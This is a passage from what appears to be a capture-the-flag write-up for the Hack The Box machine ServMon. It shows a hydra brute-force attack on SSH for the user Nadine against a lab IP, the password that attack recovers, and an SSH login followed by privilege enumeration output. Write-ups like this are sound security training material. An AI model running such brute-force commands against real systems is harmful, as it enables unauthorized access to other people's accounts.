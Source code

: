 ## Road to User

Now that I had some credentials, it was time to try to log into the machine with them.  I decided to use the tool`hydra` to do a brute force attack against SSH for both users `Nathan` and `Nadine`.

```text
zweilos@kalimaa:~/htb/servmon$ hydra -l Nadine -P passwords 10.10.10.184 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-20 21:06:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-20 21:07:01
```

Thank you `Nadine` for using one of the same passwords you recommended!

```text
zweilos@kalimaa:~/htb/servmon$ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami /all

USER INFORMATION                                            
----------------                                            

User Name      SID                                          
============== =============================================
servmon\nadine S-1-5-21-3877449121-2587550681-992675040-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes

====================================== ================ ============ ==================================
================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by defaul
t, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by defaul
t, Enabled group
```